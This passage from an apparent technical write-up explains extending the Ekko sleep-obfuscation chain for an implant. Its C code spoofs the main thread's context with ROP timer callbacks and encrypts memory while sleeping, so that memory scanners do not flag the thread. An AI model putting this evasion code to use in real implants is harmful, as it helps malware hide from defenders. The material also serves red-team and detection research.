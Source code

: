 <p></p>
<img src="../assets/img/Ekko_5.png" height="100%" width="100%" class="mx-auto d-block" unselectable="on"/>
<p></p>
Now to deal with the other `Wait:DelayExecution` thread being flagged. This is the state of the main thread during the `WaitForSingleObject` call. I honestly don't know why its callstack apparently traces back to the callback dispatcher, but regardless, we can deal with this. Simply add 3 more ROP gadgets for our callbacks: 

* Back up the main thread state  
* Overwrite the main thread state to spoof it  
* Restore it after rest so execution doesn't fuck up  

This can be done with the following code

```
Instance.Win32.DuplicateHandle((HANDLE)-1, (HANDLE)-2, (HANDLE)-1, &hMainThread, THREAD_ALL_ACCESS, 0, 0);
// GetThreadContext( ThreadHandle, &Context );
RopBackup.Rsp -= 8;
RopBackup.Rip = Instance.Win32.GetThreadContext;
RopBackup.Rcx = hMainThread;
RopBackup.Rdx = &CtxBackup;

// SetThreadContext( ThreadHandle, &Context );
RopSpoof.Rsp -= 8;
RopSpoof.Rip = Instance.Win32.SetThreadContext;
RopSpoof.Rcx = hMainThread;
RopSpoof.Rdx = &CtxSpoof;

// SetThreadContext( ThreadHandle, &Context );
RopFix.Rsp -= 8;
RopFix.Rip = Instance.Win32.SetThreadContext;
RopFix.Rcx = hMainThread;
RopFix.Rdx = &CtxBackup;

// Define other rop gadgets

Instance.Win32.CreateTimerQueueTimer(&hNewTimer, hTimerQueue, Instance.Win32.NtContinue, &RopProtRW, 100, 0, WT_EXECUTEINTIMERTHREAD);
Instance.Win32.CreateTimerQueueTimer(&hNewTimer, hTimerQueue, Instance.Win32.NtContinue, &RopMemEnc, 200, 0, WT_EXECUTEINTIMERTHREAD);
Instance.Win32.CreateTimerQueueTimer(&hNewTimer, hTimerQueue, Instance.Win32.NtContinue, &RopBackup, 300, 0, WT_EXECUTEINTIMERTHREAD);
Instance.Win32.CreateTimerQueueTimer(&hNewTimer, hTimerQueue, Instance.Win32.NtContinue, &RopSpoof, 400, 0, WT_EXECUTEINTIMERTHREAD);
Instance.Win32.CreateTimerQueueTimer(&hNewTimer, hTimerQueue, Instance.Win32.NtContinue, &RopDelay, 500, 0, WT_EXECUTEINTIMERTHREAD);
Instance.Win32.CreateTimerQueueTimer(&hNewTimer, hTimerQueue, Instance.Win32.NtContinue, &RopMemDec, 600, 0, WT_EXECUTEINTIMERTHREAD);
Instance.Win32.CreateTimerQueueTimer(&hNewTimer, hTimerQueue, Instance.Win32.NtContinue, &RopFix, 700, 0, WT_EXECUTEINTIMERTHREAD);
Instance.Win32.CreateTimerQueueTimer(&hNewTimer, hTimerQueue, Instance.Win32.NtContinue, &RopProtRX, 800, 0, WT_EXECUTEINTIMERTHREAD);
Instance.Win32.CreateTimerQueueTimer(&hNewTimer, hTimerQueue, Instance.Win32.NtContinue, &RopSetEvt, 900, 0, WT_EXECUTEINTIMERTHREAD);

```
